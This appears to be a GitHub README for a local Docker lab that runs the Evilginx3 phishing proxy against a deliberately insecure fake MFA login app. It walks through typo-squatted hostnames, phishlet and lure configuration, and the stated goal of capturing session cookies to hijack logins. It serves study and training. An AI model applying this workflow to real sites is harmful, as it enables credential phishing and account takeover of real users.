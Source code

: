 # Evilginx LAB on Docker
![back](evil-dock.jpg)

## Disclaimer
As you can imagine, this lab was created solely and exclusively for the purposes outlined in the <b>Why</b> section, and absolutely not for any malicious activity. Of course, I disclaim any responsibility for the improper use of the material contained in this repository.
The containers must absolutely not be exposed to a public network.

Please note that the comments inside files are in italian.

## Why?
I created a local lab to test Evilginx without the need to purchase a domain or presumably a VPS. It is useful for the following use cases:
1. Study and practice
2. Phishlet development and testing
3. Demonstrations and training activities

## Lab architecture
The lab consists of two Linux Docker containers. One hosts a simple PHP application that implements a fake MFA login process. The application is completely insecure, so it is strongly recommended not to expose it to the Internet and not to use the code in real-world applications. The second container hosts the Evilginx3 server.
You can find the static parameters to access the web application in <b>/app/login-config.php</b>.

As mentioned before the app is really inscure since:
- the credentials are hardoced
- even worse, the OTP code is even a costant
- session token generation process is higly predictable even without having access to the source code

So once again don't use it outside the lab enviroment. 

## Objective
Our goal is to intercept the authentication tokens (cookies) needed to hijack the user's session. It's very straightforward.

## Build & run the containers
Clone this repo and enter the directory, then execute:
	
	sudo docker-compose up --build -d --force-recreate --remove-orphans
	Building apache-php
	[+] Building 1.1s (11/11) FINISHED
	...
	Building evilginx2
	[+] Building 1.1s (10/10) FINISHED   
	...
	Creating targetsite.local ... done
	Creating targetsile.local ... done

	
Verify the containers:

	sudo docker ps
	CONTAINER ID   IMAGE                          COMMAND                  CREATED          STATUS          PORTS               NAMES
	636fa17740bf   evilginx_lab-main_apache-php   "apachectl -D FOREGR…"   41 minutes ago   Up 41 minutes   80/tcp, 443/tcp     targetsite.local
	2c595290c650   evilginx_lab-main_evilginx2    "/bin/bash -l"           41 minutes ago   Up 41 minutes   443/tcp, 8080/tcp   targetsile.local


## Mimic DNS
Modify hosts file in your host machine. Add the following lines:

	172.18.0.20 	targetsite.local login.targetsite.local
	172.18.0.10	targetsile.local login.targetsile.local
	
Visit the Legitimate site at: https://login.targetsite.local, with a bit of typo-squatting, the evil site will be https://login.targetsile.local


## Start evilnginx
Enter Evilginix container shell

	sudo docker exec -it /targetsile.local /bin/bash
Then start Evilginix in developer mode, in this mode, instead of trying to obtain LetsEncrypt SSL/TLS certificates, it will automatically generate self-signed certificates.
```bash  

root@e279e8098a4d:/evilginx2# ./evilginx2 -debug -developer

                                         
                                             ___________      __ __           __               
                                             \_   _____/__  _|__|  |    ____ |__| ____ ___  ___
                                              |    __)_\  \/ /  |  |   / __ \|  |/    \\  \/  /
                                              |        \\   /|  |  |__/ /_/  >  |   |  \>    < 
                                             /_______  / \_/ |__|____/\___  /|__|___|  /__/\_ \
                                                     \/              /_____/         \/      \/
                                         
                                                        - --  Community Edition  -- -
                                         
                                               by Kuba Gretzky (@mrgretzky)     version 3.3.0
                                         

[15:32:34] [inf] Evilginx Mastery Course: https://academy.breakdev.org/evilginx-mastery (learn how to create phishlets)
[15:32:34] [inf] debug output enabled
[15:32:34] [inf] loading phishlets from: /evilginx2/phishlets
[15:32:34] [inf] loading configuration from: /root/.evilginx
[15:32:34] [inf] blacklist mode set to: unauth
[15:32:34] [inf] unauthorized request redirection URL set to: https://www.youtube.com/watch?v=dQw4w9WgXcQ
[15:32:34] [inf] https port set to: 443
[15:32:34] [inf] dns port set to: 53
[15:32:34] [inf] autocert is now enabled
[15:32:34] [inf] blacklist: loaded 0 ip addresses and 0 ip masks
[15:32:34] [war] server domain not set! type: config domain <domain>
[15:32:34] [war] server external ip not set! type: config ipv4 external <external_ipv4_address>

+-------------------+-----------+-------------+-----------+-------------+
|     phishlet      |  status   | visibility  | hostname  | unauth_url  |
+-------------------+-----------+-------------+-----------+-------------+
| example           | disabled  | visible     |           |             |
| targetsite-local  | disabled  | visible     |           |             |
+-------------------+-----------+-------------+-----------+-------------+

:  

```
Note that I used the debug option too, since, I don't know why at the moment, the phishlet refues to capture the otp credential. Using the debug options permit to get the whole requests.
                                        
## Config Evilngnix container
```bash  
: config domain targetsile.local
: config ipv4 172.18.0.10
: phishlets hostname targetsite-local targetsile.local

: phishlets get-hosts targetsite-local 
	172.18.0.10 login.targetsile.local
	172.18.0.10 targetsile.local
	
: phishlets enable  targetsite-local 
: lures create targetsite-local 
: lures

+-----+-------------------+-----------+------------+-------------+---------------+---------+-------+
| id  |     phishlet      | hostname  |   path     | redirector  | redirect_url  | paused  |  og   |                                                                                                                                        
+-----+-------------------+-----------+------------+-------------+---------------+---------+-------+                                                                                                                                        
| 0   | targetsite-local  |           | /nBfYHrTO  |             |               |         | ----  |                                                                                                                                        
+-----+-------------------+-----------+------------+-------------+---------------+---------+-------+                                                                                

: lures get-url 0

	https://login.targetsile.local/nBfYHrTO
```
	
## Demo video (hosted on Screenrec)
- I use Firefox to surf the lure's site
- I use Chromium to visit the legitimate site

https://screenrec.com/share/SubzqN2YLx

Enjoy :)

## Useful Docker commands

### Stop and remove all the containers

	sudo docker stop $(docker ps -q)
	sudo docker rm $(docker ps -a -q)
	sudo docker image prune -a
	sudo docker-compose down
	
### Access a shell's container

	sudo docker exec -it <container name> /bin/bash

### Check mounted volumes

	sudo docker inspect <container name> | grep Mounts -A 10
	

## Inspect logs

	sudo docker logs <container name>
	
### Show containers IP

	sudo docker ps -q | xargs -n 1 docker inspect -f '{{.Name}} - {{range .NetworkSettings.Networks}}{{.IPAddress}}{{end}}'
	
	/targetsite.local - 172.18.0.20
	/targetsile.local - 172.18.0.10

